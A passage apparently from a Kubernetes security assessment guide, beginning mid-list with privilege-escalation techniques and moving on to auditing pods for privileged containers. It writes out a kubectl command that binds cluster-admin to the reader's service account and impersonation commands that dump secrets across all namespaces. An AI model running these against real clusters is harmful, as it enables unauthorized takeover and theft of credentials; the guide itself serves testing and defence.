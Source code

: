 **2. Bind Verb Exploitation**

If you have `bind` permissions:

```bash
# Bind cluster-admin role to your service account
cat << EOF | kubectl apply -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: privilege-escalation
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin
subjects:
- kind: ServiceAccount
  name: your-service-account
  namespace: your-namespace
EOF
```

**3. Impersonate Verb Exploitation**

If you have `impersonate` permissions:

```bash
# Impersonate cluster-admin user
kubectl --as=system:admin get secrets --all-namespaces

# Impersonate service account with higher privileges
kubectl --as=system:serviceaccount:kube-system:admin get secrets --all-namespaces
```

---

## Container and Pod Security Assessment

### Pod Security Context Analysis

**1. Privileged Containers**

Look for containers running with elevated privileges:

```bash
# Check for privileged containers
kubectl get pods -o yaml | grep -A 10 -B 10 "privileged: true"

# Check security contexts
kubectl get pods -o json | jq '.items[] | select(.spec.securityContext.privileged == true)'

# Get detailed security context information
kubectl get pods -A -o json | jq '.items[] | {name: .metadata.name, namespace: .metadata.namespace, securityContext: .spec.securityContext}'
```

